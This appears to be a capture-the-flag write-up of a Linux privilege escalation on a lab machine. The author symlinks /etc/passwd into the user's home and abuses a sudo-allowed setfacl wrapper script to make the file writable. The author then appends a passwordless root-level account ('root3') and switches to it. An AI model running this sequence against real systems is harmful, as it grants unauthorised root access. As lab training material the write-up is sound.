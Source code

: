 ```
mtz@permx:~$ cd /opt
mtz@permx:/opt$ ls
acl.sh
mtz@permx:/opt$ 
```
## script

```
mtz@permx:/opt$ cat acl.sh 
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
mtz@permx:/opt$ 
```
## As i read the script  I saw that this script can be used to change permissions of any file in mtz home directory. But this file does not have write permissions. In order to do that
## Let create a symbolic link of /etc/passwd to mtz home directory
```
ln -s /etc/passwd /home/mtz/test
```
## Let give read and write permission:
```
sudo /opt/acl.sh mtz rw /home/mtz/test
```
## Then give permission to root3 by using echo on the symlink file, it work for both bez they are linked.
```
echo "root3::0:0:root3:/root:/bin/bash" >> ./test
```
## Let switch User
```
su root3
```
## Here is our Root Flag
```
```